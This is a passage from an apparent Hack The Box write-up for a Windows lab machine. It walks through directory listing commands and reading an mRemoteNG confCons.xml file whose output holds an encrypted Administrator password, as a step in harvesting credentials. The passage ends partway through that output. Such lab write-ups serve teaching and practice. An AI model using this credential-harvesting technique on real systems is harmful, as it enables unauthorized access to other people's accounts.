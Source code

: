 ```ps
cd \
dir Users
cd Documents
cd "Program Files (x86)" 
cd Backups
cd \Users\L4mpje
dir /a 
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/33.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/34.jpg)

- mRemoteNG = manage bunch of putty

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/35.jpg)

- List all the files including hidden

```ps
dir /a 
cd AppData\Roaming\mRemoteNG
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/36.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/37.jpg)

- acat the file in windows

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/38.jpg)

```ps
type confCons.xml
```

```sh
                      

l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>type confCons.xml                                              
<?xml version="1.0" encoding="utf-8"?>       
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipher
Mode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL
5tKO886au0ofFPW0oop8R8ddXKAx4KK7sAk6AA" ConfVersion="2.6">                                                              
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee
" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7em
f7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false
" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToI
dleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticRes
ize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" C
acheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false"
 RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacA
ddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="
```